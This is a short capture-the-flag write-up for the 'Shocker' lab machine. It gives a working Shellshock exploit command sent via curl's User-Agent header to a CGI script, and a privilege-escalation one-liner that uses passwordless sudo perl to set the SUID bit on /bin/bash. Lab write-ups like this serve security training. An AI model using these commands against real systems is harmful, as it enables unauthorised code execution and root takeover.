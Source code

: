 # Shocker

## Enum

After scanning with ffuf, the following file was found.  

`cgi-bin/user.sh`

## User

Shellshock vuln found with the following command.  

`curl -A "() { ignored; }; echo Content-Type: text/plain ; echo  ; echo ; /usr/bin/id" http://10.129.132.254/cgi-bin/user.sh`

## Root

perl is runnable under sudo with no password.  

`sudo perl -e 'system("chmod +s /bin/bash");'`
